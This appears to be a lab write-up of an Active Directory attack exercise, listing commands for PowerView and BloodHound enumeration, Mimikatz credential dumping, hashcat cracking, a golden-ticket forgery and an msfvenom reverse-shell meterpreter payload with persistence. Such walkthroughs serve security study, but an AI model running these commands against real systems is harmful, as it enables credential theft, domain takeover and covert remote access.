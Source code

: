 ```
IP = 10.10.68.244
```

## Enumeration with PowerView & Bloodhound
--------------------------------------------
+ Connected to victim using SSH, `ssh -l user@qualified.domain IP`
+ Start powershell using `powershell -ep bypass`
+ Start PowerView: `. .\Downloads\PowerView.ps1`
+ Enumerate domain users: `Get-NetUser | select cn`
+ Enumerate domain groups: `Get-NetGroup -GroupName *admin*`
+ Obtained enumeration data using `SharpHound.ps1` and `Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFilename loot.zip`
+ Imported the loot.zip file into bloodhound on the attacker machine.

## Dumping hashes with Mimikatz
-------------------------------------
+ Ran `mimikatz.exe` on victim machine.
+ Check privileges using `privilege::debug`
+ Dump hashes: `lsadump::lsa /patch`
+ Crack hashes: `hashcat -m 1000 <hash> rockyou.txt`

## Golden ticket attacks with mimimatz
----------------------------------------
+ Dump hash & identifier of Kerberos Ticket Granting Ticket: `lsadump::lsa /inject /name:krbtgt`
+ Create a golden ticket: `kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500`
+ Use the golden ticket to access other machines: `misc::cmd`

## Enumeration with Server Manager
-------------------------------------
+ A lot of enumeration can be done using the tools and manage tab of the server manager.

## Maintaining access
------------------------------
+ Generate a payload using msfvenom: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.6.27.197 LPORT=9001 --format exe -o payload.exe`
+ Transfer payload to victim and start listening on 9001 on attacker machine using `use exploit/multi/handler`.
+ Execute binary in victim to get a meterpreter shell back.
+ Alternatively, use the persistence module to create a backdoor into victim computer.
